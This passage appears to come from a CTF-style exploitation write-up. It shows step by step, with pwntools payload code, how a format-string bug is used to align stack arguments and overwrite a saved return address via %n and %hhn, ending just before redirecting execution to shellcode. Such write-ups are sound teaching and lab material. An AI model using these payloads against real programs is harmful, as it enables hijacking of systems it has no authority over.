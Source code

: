 We are almost there but its not exact. There is a 0x70 at the end. We need to mess with the alignment. We can align it to be the 8th pointer off the stack by appending "7" bytes of padding after out "$p". The following code aligns it.
```python=
overwrite_payload = "%100x"
overwrite_payload += "%8$pzzzzzzz"
overwrite_payload += "A"*8
io.sendlineafter("> ",overwrite_payload)
```
And the output below shows that we have all our "A"'s aligned:

![](https://i.imgur.com/otBCEOS.png)

We can now substitute the "A"'s with saved rip address and we should see that address show up in the response.

```python=
overwrite_payload = "%100x"
overwrite_payload += "%8$pzzzzzzz"
overwrite_payload += p64(saved_rip)
io.sendlineafter("> ",overwrite_payload)
```
![](https://i.imgur.com/3j6JOFO.png)

Switching from %p to %n will let us write 100 bytes to the saved rip address.

```python=
overwrite_payload = "%100x"
overwrite_payload += "%8$nzzzzzzz"
overwrite_payload += p64(saved_rip)
io.sendlineafter("> ",overwrite_payload)
```

Running the code above and then running continue in gdb, we can examine if our write worked The output is shown below.
![](https://i.imgur.com/mIkdte6.png)

![](https://i.imgur.com/nyWRY9r.png)

We wrote 0x64 (100) to that address. Unfortunetly it also wrote 0x0 over some of the bytes in that address. If we want to only change the last byte ww can append "hh" before the "%n". By adding those 2 characters we have to subtract 2 from the padding we added to keep everything aligned.

```python=
overwrite_payload = "%100x"
overwrite_payload += "%8$hhnzzzzz"
overwrite_payload += p64(saved_rip)
io.sendlineafter("> ",overwrite_payload)
```

The result of the code below, printing the saved rip:

![](https://i.imgur.com/GpziExs.png)

This only wrote 0x64 to the last byte and kept the other bytes intact. We can now attempt to write the address of our shellcode instead of 0x64
